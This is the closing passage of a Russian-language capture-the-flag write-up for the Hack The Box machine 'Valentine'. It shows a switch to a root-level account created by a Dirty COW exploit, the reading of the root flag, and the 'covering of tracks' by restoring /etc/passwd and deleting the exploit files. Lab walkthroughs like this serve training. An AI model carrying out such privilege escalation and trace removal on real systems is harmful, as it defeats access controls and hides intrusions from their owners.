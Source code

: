 Сменим пользователя на `firefart`, даровав себе тем самым права суперпользователя:
```text
hype@Valentine:~$ su firefart
Password: qwe123!@#

firefart@Valentine:/home/hype# whoami
firefart

firefart@Valentine:/home/hype# id
uid=0(firefart) gid=0(root) groups=0(root)
```

Теперь заберем флаг:
```text
firefart@Valentine:/home/hype# cat /root/root.txt
f1bb6d75????????????????????????
```

почистим за собой следы:
```text
firefart@Valentine:/home/hype# mv /tmp/passwd.bak /etc/passwd
firefart@Valentine:/home/hype# exit
su: User not known to the underlying authentication module

hype@Valentine:~$ su firefart
Unknown id: firefart

hype@Valentine:~$ rm dirty.c dirty
```

и так же идем радоваться жизни.

Valentine пройден :triumph:

![owned-user.png](/assets/images/htb/machines/valentine/owned-user.png)
{:.center-image}

![owned-root.png](/assets/images/htb/machines/valentine/owned-root.png)
{:.center-image}

![trophy.png](/assets/images/htb/machines/valentine/trophy.png)
{:.center-image}
